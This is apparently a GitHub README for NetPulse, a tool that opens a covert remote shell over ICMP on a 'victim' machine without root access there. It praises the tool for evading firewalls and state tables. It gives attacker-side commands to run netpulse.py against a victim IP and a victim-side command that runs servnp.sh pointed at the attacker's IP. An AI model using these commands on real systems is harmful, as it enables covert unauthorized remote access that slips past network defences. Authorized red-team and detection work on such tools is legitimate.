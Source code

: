 # NetPulse Usage Guide - ICMP SHELL Tool

NetPulse is an ICMP SHELL tool that does not require root access on the victim's side. This guide provides detailed information on how to use NetPulse.

## Advantages of NetPulse
- **No Root Access Required:** NetPulse eliminates the need for root access on the victim's side.
- **Camouflage:** ICMP traffic is common and often allowed in networks and firewalls.
- **Reduced Visibility:** ICMP messages leave no traces in the state tables of most firewalls.
- **Useful in Restrictive Networks:** In networks where TCP or UDP traffic is strictly controlled, ICMP can be an alternative.

## Disadvantages of NetPulse
- **Limited Shell:** NetPulse provides a limited and non-interactive shell.
- **Uncommon Traffic:** Traffic generated by NetPulse can be detected by intrusion detection systems.
- **High Latency:** Compared to a reverse shell, NetPulse is much slower.

## Attacker-Side Configuration
Attacker-side configuration is more complex and requires root access. Follow the steps below:

### Disable Kernel Auto-Response to Pings:

To disable the kernel's automatic ping response, use the `-s` flag:
```
$ sudo python3 netpulse.py -s
```

If you want to enable it again, you can use the same option.
This change is not permanent and will revert to the default upon system restart.

### Starting the Client

To start the client, execute the [netpulse.py](/netpulse.py) file with root permissions:

```bash
$ sudo python3 netpulse.py -i <interface> <victim-IP>
```
For more options, use the -h flag:
```bash
$ python3 netpulse.py -h
```

## Victim-Side Configuration
Victim-side configuration is simpler and does not require root access. Ensure that the following tools are installed:

- [iputils-ping](https://packages.debian.org/bullseye/iputils-ping) - Tool for testing the reachability of network hosts.
- [xxd](https://packages.debian.org/bullseye/xxd) - Tool for creating (or reversing) a hexadecimal dump.

If all the necessary tools are installed, run the [servnp.sh](/servnp.sh) file:
```bash
$ chmod +x servnp.sh && ./servnp.sh <attacker-IP>
```

# Screenshot

<img src="https://github.com/thekh40s/netpulse/assets/129444003/38875260-9f1b-4cfb-b5ef-178f31dddfbf" width="800">
